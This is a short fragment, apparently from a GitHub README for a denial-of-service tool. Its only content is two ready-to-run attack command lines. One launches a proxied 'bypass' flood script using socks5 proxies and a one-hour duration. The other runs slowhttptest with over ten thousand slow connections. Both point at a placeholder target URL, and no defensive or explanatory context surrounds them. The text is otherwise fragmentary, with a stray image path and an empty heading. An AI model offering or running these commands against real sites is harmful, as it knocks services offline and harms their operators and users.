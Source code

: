 # a

``` python3 start.py bypass https://?.com 5 101 socks5.txt 100 3600 true ```

``` slowhttptest -c 10239 -H -x 24 -p 3 -r 20000 -t GET -i 10 -u http://?.com ``` 
